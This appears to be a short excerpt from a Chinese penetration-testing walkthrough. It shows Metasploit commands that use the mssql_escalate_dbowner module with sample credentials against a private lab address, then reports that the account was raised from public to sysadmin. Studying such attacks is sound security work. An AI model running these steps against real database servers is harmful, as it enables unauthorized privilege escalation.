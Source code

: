 ```php
use admin/mssql/mssql_escalate_dbowner
set rhosts 192.168.3.130
set username test1
set password admin@123
exploit
```

![image.png](assets/1706232584-c4254897864548909b03f6c14693807f.png)  
可以看到已经从只有 public 升级为 sysadmin  
![image.png](assets/1706232584-6c7f6312a3dbe992d5f8444d7c66501d.png)
